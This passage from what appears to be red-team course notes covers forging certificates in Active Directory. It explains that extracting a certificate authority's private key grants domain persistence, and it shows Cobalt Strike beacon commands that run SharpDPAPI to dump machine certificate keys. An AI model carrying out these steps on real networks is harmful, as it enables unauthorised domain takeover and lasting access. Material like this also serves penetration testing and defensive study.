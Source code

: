 Often times, they are also not treated with the same sensitivity as DCs.

So, whereas only EAs and DAs can access/manage DCs, "lower level" roles such as server admins can access the CAs.

This can be perceived as an privilege escalation vector, but is just as powerful/useful as a domain persistence method.

Gaining local admin access to CA allows an attacker to extract the CA private key.

This can then be used to sign a forged certificate.

* Think of this like the `krbtgt` hash being able to sign a forged TGT

The default validity period for a CA private key is five years. However, it can be set to anything at setup.

### Extracting CA Private Keys

**Once on a CA,** [**SharpDPAPI**](https://github.com/GhostPack/SharpDPAPI) **can extract the private keys:**

```
beacon> run hostname
dc-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe certificates /machine
```

<figure><img src="../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

